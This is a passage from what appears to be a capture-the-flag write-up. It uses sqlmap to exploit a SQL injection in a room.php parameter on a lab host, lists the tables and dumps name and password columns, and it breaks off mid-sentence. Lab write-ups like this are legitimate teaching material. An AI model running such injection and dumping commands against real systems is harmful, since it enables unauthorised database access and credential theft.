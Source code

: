 There are 9 entries available to use, we can list tables of those DBs now.

```bash
$ sqlmap -u http://10.10.10.143/room.php?cod=1 --random-agent -D aaalc --tables
```

![](images/tables.png)

now let's see the content of that table

```bash
$ sqlmap -u http://10.10.10.143/room.php?cod=1 --random-agent -D aaalc --tables -T "orlol" -C name,password --dump
```

![](images/content.png)

It's empty but using the same commands we can now checkout content of all the DBs/tables.

I found something in the `hotel` DB, it had a table named `room` and when I tried to list content of that table I got:
